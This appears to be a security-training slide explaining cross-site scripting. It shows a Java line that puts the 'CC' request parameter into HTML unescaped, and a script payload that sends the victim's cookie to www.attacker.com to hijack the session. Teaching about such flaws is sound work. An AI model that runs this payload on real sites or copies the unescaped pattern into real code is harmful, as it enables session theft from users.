

# Cross-Site Scripting Vulnerability
The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:
(String) page += "<input name='creditcard' type='TEXT‘ value='" + request.getParameter("CC") + "'>";

The attacker modifies the ‘CC’ parameter in the browser to:
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.